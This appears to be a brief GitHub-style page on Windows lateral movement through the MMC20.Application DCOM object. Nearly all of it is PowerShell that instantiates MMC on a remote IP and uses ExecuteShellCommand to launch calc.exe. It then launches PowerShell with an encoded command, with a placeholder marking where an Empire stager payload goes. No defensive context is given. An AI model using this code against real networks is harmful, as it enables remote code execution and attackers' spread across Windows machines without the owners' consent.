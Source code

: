 
# Lateral Movement in Windows environment using MMC


    
     $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IPAddress"))
     $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)
     $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")
   

